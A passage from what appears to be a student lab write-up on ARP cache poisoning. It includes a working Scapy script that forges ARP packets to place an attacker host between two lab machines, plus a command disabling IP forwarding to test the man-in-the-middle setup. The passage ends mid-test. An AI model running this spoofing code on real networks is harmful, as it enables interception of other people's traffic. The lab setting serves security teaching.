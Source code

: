 Viewing A's cache:

![](./screenshots/arp-2.png)
> Its pointing IP B to MAC M.

2. Packet sent to B:
```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"

# Ethernet layer. Sending a packet from M to A.
E = Ether(src=M_MAC, dst= B_MAC)

# ARP layer. Sending a packet from M to A with B IP AND M MAC.
A = ARP(hwsrc=M_MAC, psrc=A_IP, hwdst=B_MAC, pdst=B_IP, op=1)

pkt = E/A
sendp(pkt, iface="eth0")
```

Viewing B's cache:

![](./screenshots/arp-4.png)
> Its pointing IP A to MAC M.

Now that we have successfully placed M in the middle, we can start sending packets from A to B.

### Step 2: Test (IP Forwarding Off)

Testing our attack, we can now turn off IP forwarding on host M so that the packets destined to reach B from A stop at M, and the packets destined to reach A from B stop at M.

```bash
sysctl net.ipv4.ip_forward=0
```
> On host M.****

Now, we can try and ping B from A, while opening `tcpdump` on all 3 machines.

* Host A:
